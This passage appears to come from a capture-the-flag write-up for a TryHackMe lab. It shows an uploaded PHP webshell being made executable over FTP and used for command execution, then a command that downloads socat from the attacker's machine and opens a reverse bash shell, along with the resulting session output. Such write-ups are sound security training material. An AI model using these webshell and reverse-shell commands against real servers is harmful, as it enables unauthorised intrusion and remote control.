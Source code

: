 As you can see, it only readable and writable by UID `1001`.

**That being said, we can `chmod` command to change it to world-readable/writable/executable:**
```shell
ftp> chmod 777 webshell.php
200 SITE CHMOD command ok.
```

**Now, we should able to execute our webshell code!**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.01.31|15:25:04(HKT)]
└> curl http://subdomain.adana.thm/webshell.php --get --data-urlencode "cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nice! We have code execution!

**Let's get a shell!**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.02.02|09:07:18(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2023/02/02 09:07:20 socat[8591] N opening character device "/dev/pts/1" for reading and writing
2023/02/02 09:07:20 socat[8591] N listening on AF=2 0.0.0.0:4444

┌[siunam♥earth]-(/opt/static-binaries/binaries/linux/x86_64)-[2023.02.02|09:06:27(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.02.02|09:07:23(HKT)]
└> curl http://subdomain.adana.thm/webshell.php --get --data-urlencode "cmd=wget http://10.9.0.253:8000/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane"
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Different-CTF)-[2023.02.02|09:07:18(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2023/02/02 09:07:20 socat[8591] N opening character device "/dev/pts/1" for reading and writing
2023/02/02 09:07:20 socat[8591] N listening on AF=2 0.0.0.0:4444
                                                                2023/02/02 09:07:43 socat[8591] N accepting connection from AF=2 10.10.152.107:56364 on AF=2 10.9.0.253:4444
                                                                2023/02/02 09:07:43 socat[8591] N starting data transfer loop with FDs [5,5] and [7,7]
                                           www-data@ubuntu:/var/www/subdomain$ 
www-data@ubuntu:/var/www/subdomain$ export TERM=xterm-256color
www-data@ubuntu:/var/www/subdomain$ stty rows 22 columns 107
www-data@ubuntu:/var/www/subdomain$ whoami;hostname;id;ip a
www-data
ubuntu
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:e0:8b:fe:8b:6d brd ff:ff:ff:ff:ff:ff
    inet 10.10.152.107/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::e0:8bff:fefe:8b6d/64 scope link 
       valid_lft forever preferred_lft forever
www-data@ubuntu:/var/www/subdomain$ ^C
www-data@ubuntu:/var/www/subdomain$ 
```
